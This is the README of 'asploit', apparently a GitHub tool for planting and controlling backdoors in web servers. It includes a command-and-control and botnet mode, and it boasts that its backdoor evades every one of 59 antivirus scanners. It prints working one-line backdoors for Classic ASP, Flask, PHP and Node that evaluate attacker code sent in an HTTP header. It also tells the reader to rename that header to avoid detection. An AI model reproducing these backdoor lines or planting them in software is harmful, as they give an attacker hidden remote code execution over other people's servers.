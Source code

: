 # asploit
This tool allows you to deploy and exploit backdoors with one line of code in Classic ASP, Flask, NodeJS, and PHP servers.

As of April 9, 2024, the backdoor is detected by 0/59 virus scanners on [VirusTotal](https://www.virustotal.com/gui/file/ea41fc39434119f35c84308b78f9d7925eb754fbc1ef24e5253a7c5d04446502).

Custom extensions can be created and installed to control any backdoored server.
# Command and Controller
## Setup
Install the prerequisites with `pip install -r requirement.txt` in the `src` folder.

If you're on Windows, run `pip install -r windows_requirements.txt`.
## Starting the Controller
The controller runs on Python. To start, run `main.py` in the `src` folder.
## Help
Type `help` to list all commands in the current shell. Changes depending on whether or not you've entered a botnet or exploit shell.
## Botnet Controlling
To control multiple backdoors at once, run `botnet` outside of an exploit shell to enter the botnet mode.
## Custom Backdoors/Exploits
### Loading Extensions
Load extensions using the `loadext` command before entering an exploit shell.

Run `help loadext` for more details.
### Creating Extensions
To make a custom exploit/extension, create a Python module containing a class/classes that extends the ExploitProcessor class.

View the `PHPExploitProcessor` in the `src` folder for an example of the implementation.
# Backdoor
## Backdoor Creation Script
Use the `create_backdoor.sh` script to generate the one line backdoor. The following is for reference.
### Classic ASP
Add the following line to the top of the file you want to have the backdoor
```
<% If request.servervariables("EXPLOIT") <> "" Then:execute(request.servervariables("EXPLOIT")):response.end:End If %>
```
### Flask
Add the following line to the top of the endpoint you want to have the backdoor
```
if request.headers.get('EXPLOIT'): global r;exec(__import__('base64').b64decode(request.headers.get('EXPLOIT').encode()).decode());return r;
```
### PHP
Add the following line to the top of the endpoint you want to have the backdoor
```
isset($_SERVER["HTTP_EXPLOIT"]) and eval($_SERVER["HTTP_EXPLOIT"]);
```
### Node
Add the following line to the endpoint you want to have the backdoor
```
if (req.headers?.exploit) return (eval('let r=res;let i=req;'+req.headers?.exploit));
```
Replace `res` with the `ServerResponse` parameter name, and replace `req` with the `IncomingRequest` parameter name.
#### Note
Only works if `fs` and `{ execSync } from 'child_process` is imported.

So in some cases, the backdoor may technically be up to three lines.
### Notes
Any area where `EXPLOIT` or `exploit` is referenced can be replaced with any custom HTTP header (eg. for PHP, `HTTP_EXPLOIT` -> `HTTP_ANYTHINGYOUWANT`).
# Contributing
Any help in this project would be appreciated, and feel free to make pull requests for any custom extensions you create.
# Thank You
This repository was inspired by [PHPSPLOIT](https://github.com/nil0x42/phpsploit).
